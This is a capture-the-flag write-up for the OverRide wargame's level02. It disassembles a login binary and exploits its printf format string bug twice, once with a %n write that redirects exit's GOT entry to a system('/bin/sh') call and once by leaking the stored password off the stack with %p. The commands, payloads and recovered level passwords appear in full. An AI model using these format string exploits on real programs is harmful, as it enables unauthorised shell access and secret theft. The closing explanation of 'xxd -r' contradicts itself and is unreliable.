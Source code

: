 
```asm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
```gdb
<+245>:	lea    -0xa0(%rbp),%rax ==> result of reading "/home/users/level03/.pass" = the Flag
<+252>:	mov    $0x400bf5,%esi   ==> "\n"
<+257>:	mov    %rax,%rdi
<+260>:	callq  0x4006d0 <strcspn@plt>
```
```gdb
strcspn() calculates the length of the number of characters before the 1st occurrence of character present in both the string
Parameters:
str1 : The Target string in which search has to be made.
str2 : Argument string containing characters to match in target string.
```
strcspn("PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv", "\n"). // the flag from level01

In this case, there is no occurrence of the newline character \n in the first string, so the function will return the length of the entire string, which is 40.
```gdb
 <+260>:	callq  0x4006d0 <strcspn@plt>
 <+265>:	movb   $0x0,-0xa0(%rbp,%rax,1)
 <+273>:	cmpl   $0x29,-0xc(%rbp)       ===> ret fread() = -0xc(%rbp)
INTEL 
 <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0
 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
```
```gdb
rbp+rax*1-0xa0 = 0 ==> rbp-0xa0 + rax ==> *(rbp-0xa0 + rax) = 0 ==> buffer + rax ==> buffer[rax] = 0 
then compares the res of fread() to 41
```
```c
if not equal; then 
  0x400bf8:	 "ERROR: failed to read password file\n"
  exit(1)
else jmp to <+361>

fclose(*File) // -0x8(%rbp)
```
```
the program really begins at <+373>
0x400c20:	 "===== [ Secure Access System v1.0 ] ====="
```
```asm
 <+431>:	mov    0x20087e(%rip),%rax        # 0x601248 <stdin@@GLIBC_2.2.5>
 <+438>:	mov    %rax,%rdx
 <+441>:	lea    -0x70(%rbp),%rax
 <+445>:	mov    $0x64,%esi
 <+450>:	mov    %rax,%rdi
 <+453>:	callq  0x4006f0 <fgets@plt>
```
```gdb
<+453>: fgets Username from stdin and stores it at -0x70(%rbp)
<+523>:	fgets Username from stdin and stores it at -0x110(%rbp)

<+566>:	lea    -0x110(%rbp),%rcx ==> the PWD
<+573>:	lea    -0xa0(%rbp),%rax  ==> The Flag

<+591>:	callq  0x400670 <strncmp@plt>

strncmp(Flag, PWD, 0x29/41);

if jne    <main+642>
   printf(-0x70(%rbp) ) // username
   "username" does not have access!
   exit
else
  printf("Greetings, %s!\n", -0x70(%rbp)) // username
  system (/bin/sh)
```

Format String to overide the GOT

```
--[ Username: %p %p %p %p %p %p %p %p
--[ Password: AAAA
*****************************************
0x7fffffffe4c0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 0x41414141
```

`(python -c 'print " %p " * 8 + "\n" + "AAAA"') | ./level02`

```py
level02@OverRide:~$ (python -c 'print "%8$p" + "\n" + "AAAA"') | ./level02
0x41414141 does not have access!
```
```
x/s 0x601228
0x601228 <exit@got.plt>


----> 0x0000000000400a85 <+625>:	mov    edi,0x400d32 
      0x0000000000400a8a <+630>:	call   0x4006b0 <system@plt>

p 0x0000000000400a85 = 4196997
```

```py
level02@OverRide:~$ (python -c 'print "%4196997p%8$n" + "\n" + "\x60\x12\x28"[::-1]' ; cat) | ./level02 > /dev/null
pwd 1>&2
/home/users/level02
cat /home/users/level03/.pass
cat /home/users/level03/.pass 1>&2
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

**SECOND METHOD




```py
(python -c 'print " %p " * 100 + "\n" + "AAAA"') | ./level02 | xargs -n 1 echo

...
0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
...

The length of the flag string is 40 so we need 5 * 8 (16/2 hex len)

the value at the 26th position on the stack  
(python -c 'print "%26$p" + "\n" + "AAAA"') | ./level02
0x48336750664b394d

then lets reconstruct our flag

echo "0x756e505234376848" | xxd -r -p | rev
Hh74RPnu


0x756e505234376848 ==> Hh74RPnu
0x45414a3561733951 ==> Q9sa5JAE
0x377a7143574e6758 ==> XgNWCqz7
0x354a35686e475873 ==> sXGnh5J5
0x48336750664b394d ==> M9KfPg3H

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

--[ Username: user
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, user!
$ pwd
/home/users/level02
```

simplified script

```py
level02@OverRide:~$ for ((i=1; i<=26; i++)); do (python -c "print '%$i\$p'" && echo) | ./level02 | grep 0x ; done

0x7fffffffe4c0 does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x7fffffffe6b8 does not have access!
0x1f7ff9a08 does not have access!
0x100000000 does not have access!
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
```

more simplistic syntax

`(python -c 'print "%22$p %23$p %24$p %25$p %26$p" + "\n" + "AAAA"') | ./level02 | xargs -n 1 echo | tail -n 9 | head -n 5`

`python -c "print '756e505234376848'.decode('hex')[::-1] + '45414a3561733951'.decode('hex')[::-1] + '377a7143574e6758'.decode('hex')[::-1] + '354a35686e475873'.decode('hex')[::-1] + '48336750664b394d'.decode('hex')[::-1]"`


********notes

`echo "$i - %$i\$p"`: This command uses the echo command to print a string that includes the current value of i and a format specifier (%$i\$p) that specifies the position of the argument to be printed by the printf function. The $i syntax refers to the current value of the loop variable i, and the backslash before the $ character is used to escape it so that it is interpreted as a literal character.

`echo "0x756e505234376848" | xxd -r -p`
This will pipe the string "0x756e505234376848" to the xxd command, which will convert it from hex to binary format. The -r option tells xxd to reverse the conversion process (from binary back to hex), and the -p option tells xxd to read the input as plain hexadecimal digits (without any whitespace or other formatting). The resulting binary data is then piped to the echo command, which will print it to the console as ASCII text.





